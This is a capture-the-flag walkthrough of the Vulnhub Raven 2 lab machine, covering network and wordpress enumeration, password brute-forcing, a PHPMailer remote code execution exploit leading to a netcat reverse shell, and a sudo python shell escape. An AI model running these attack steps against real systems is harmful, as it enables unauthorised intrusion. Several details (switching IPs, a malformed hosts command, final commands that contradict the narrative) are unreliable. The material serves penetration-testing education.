



# Walkthrough: Raven 2, a vulnhub machine


## About the machine


| data |  |
|--------| ------- |
| Machine | Raven 2 |
| Platform | Vulnhub |
| url | [link](https://www.vulnhub.com/entry/raven-2,269/) | 
| Download | [https://drive.google.com/open?id=1fXp4JS8ANOeClnK63LwgKXl56BqFJ23z](https://drive.google.com/open?id=1fXp4JS8ANOeClnK63LwgKXl56BqFJ23z)  |
| Download Mirror | [https://download.vulnhub.com/raven/Raven2.ova](https://download.vulnhub.com/raven/Raven2.ova) |
| Size | 765 MB |
| Author | [William McCann](https://www.vulnhub.com/author/william-mccann,596/) |
| Release date | 9 November 2018 |
| Description | Raven 2 is an intermediate level boot2root VM. There are four flags to capture. After multiple breaches, Raven Security has taken extra steps to harden their web server to prevent hackers from getting in. Can you still breach Raven? |
| Difficulty | Intermediate |
| OS | Linux |


## Walkthrough

### Setting up the machines

I'll be using Virtual Box.

Kali machine (from now on: attacker machine) will have two network interfaces: 

- eth0 interface: NAT mode (for internet connection).
- eth1 interface: Host-only mode (for attacking the victim machine).

Raven 1 machine (from now on: victim machine) will have only one network interface:

- eth0 interface.

After running 

```bash
ip a
```
we know that the attacker's machine IP address is 192.168.56.102/24. 


### Reconnaissance

#### Identify victim's IP

To discover the victim's machine IP, we run:

```bash
sudo netdiscover -i eth1 -r 192.168.56.102/24
```

These are the  results:


Usually, victim's IP is the last one listed. 


#### Scan victim's surface attack

Now we can run a scanner to see which services are running on the victim's machine:

```bash
sudo nmap -p- -A 192.168.56.105
```

And the results:


Having a web server in port 80, it's inevitable to open a browser and have a look at it. Also, at the same time, we can run a simple enumeration scan with [dirb](dirb.md):

```bash
dirb http://192.168.56.105
```
By default, dirb is using /usr/share/dirb/wordlists/common.txt. The results are pretty straightforward:


There are two folders quite appealing: 

+ A wordpress installation running on the server. 
+ A vendor installation with a service such as PHPMailer installed.


#### Deeper scan with specific tool for wordpress service: wpscan 

First, let's start by running a much deeper scanner with [wpscan](wpscan.md). We'll be enumerating users, 


```bash
wpscan --url http://192.168.56.104/wordpress --enumerate u --force --wp-content-dir wp-content
```

And the results show us some interesting findings:





**Main findings**:

+ XML-RPC seems to be enabled: http://192.168.56.104/wordpress/xmlrpc.php. What does this service do? It allows authentication to post entries. It's also useful in wordpress for retrieving pings when a post is linked back. This means that it's also an open door for exploitation. We'll return to this lateri.
+ WordPress readme found: http://raven.local/wordpress/readme.html
+ Upload directory has listing enabled: http://raven.local/wordpress/wp-content/uploads/.
+ WordPress version 4.8.7.
+ WordPress theme in use: twentyseventeen.
+ Enumerating Users: michael, steven.


Opening the browser in http://192.168.56.104/wordpress/readme.html, we can see some instructions to set up the wordpress installation. As a matter of fact, by clicking on http://192.168.56.105/wp-admin/install.php, we end up on a webpage with the source code pointing to raven.local. We need to include a redirection in our /etc/hosts file. (This is better explained in [the vulnhub raven 1 machine](vulnhub-raven-1.md).  

```bash
sudo nano /etc/hosts
```

At the  end of the file we add the following line:

```bash
192.168.56.104	local.raven
# CTRL-s  and CTRL-x
```

There was another open folder: http://raven.local/wordpress/wp-content/uploads/. Using the browser we can get to 


And now we have flag3:




Let's see now the user enumeration. Yoy can go to [the walkthrough of the Vulnhub Raven 1 machine to see how to manually brute force users in a wordpress installation](vulnhub-raven-1.md).  


### Exploiting findings


#### Bruce-forcing passwords for the CMS

Having found anything, after testing input validations in the endpoints of the application, 

I'm going to try to brute force login with steven, who is the user with id=2.

```bash
wpscan --url http://192.168.56.105/wordpress --passwords /usr/share/wordlists/rockyou.txt  --usernames steven -t 25
```

And also with michael:


```bash
wpscan --url http://192.168.56.105/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames michael -t 25
```

No valid password is found.


#### Browse listable folders that are supposed to be close


Besides the wordpress installation, our dirb scan gave us another interesting folder: http://192.168.56.105/vendor. Browsing around you can find the service PHPMailer installed.



Two insteresting findings regarding the PHPMailer service:
	
1. The file PATH, with the the path to the service and other of the flags:


In plain text:

```
/var/www/html/vendor/
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
```

2. The file VERSION, that reveals that the PHPMailer service has version 5.2.16, which is potentially vulnerable,.


#### Exploiting the service PHPMailer 5.2.16 

After googling "phpmailer 5.2.16 exploit", we have these results:

+ [https://www.exploit-db.com/exploits/40974](https://www.exploit-db.com/exploits/40974).


**What is this vulnerability about?** Quoting [Legalhackers](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html):

> An independent research uncovered a critical vulnerability in PHPMailer that could potentially be used by (unauthenticated) remote attackers to achieve remote arbitrary code execution in the context of the web server user and remotely compromise the target web application.
> To exploit the vulnerability an attacker could target common website components such as contact/feedback forms, registration forms, password email resets and others that send out emails with the help of a vulnerable version of the PHPMailer class.

When it comes to Raven 2 machine, we realize that we're using a contact form from: 


We can use the exploit from https://www.exploit-db.com/exploits/40974. 

Originally, this exploit is (highlighted the fields we're going to change):


And this is the anarconder.py saved with execution permissions in our attacker machine (hightlighted my changes to the original script):


We launch the script:

```bash
python3 anarconder.py
```

And open in listening mode port 4444  with netcat:

```bash
nc -lnvc 4444
```

Now, I will open in the browser http://192.168.56.105/zhell.php to get the reverse shell in my netcat conection.


And we can browse to /var/www and get flag2.txt


flag2.txt in plain text:

```bash
flag2{6a8ed560f0b5358ecf844108048eb337}
```


### Escalation of privileges

First, let's see who we are (id), to which groups we belong (id), the version of the running server (uname -a),  and which commands we are allowed to run (sudo -l). 


In this occasion, it's worth look into the Linux distro version: Linux Raven 3.16.0-6-amd64. After googling for it, we can see it's vulnerable to CVE-2014-5207 (Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation). Perfect! Let's get our hands dirty.


#### Commands used to exploit the machine

```
sudo netdiscover -i eth1 -r 192.168.56.102/24
sudo nmap -p- -A 192.168.56.104
dirb http://192.168.56.104
wpscan --url http://192.168.56.104/wordpress --enumerate u --force --wp-content-dir wp-content
echo "192.168.56.104	local.raven" sudo >> /etc/hosts
wpscan --url http://192.168.56.104/wordpress --passwords /usr/share/wordlists/rockyou.txt  --user steven -t 25
ssh steven@192.168.56.104
sudo python -c 'import os; os.system("/bin/sh")'
find . -name flag*.txt 2>/dev/null
```

#### Tools

+ [dirb](dirb.md).
+ [netdiscover](netdiscover.md).
+ [nmap](nmap.md).
+ [wpscan](wpscan.md).

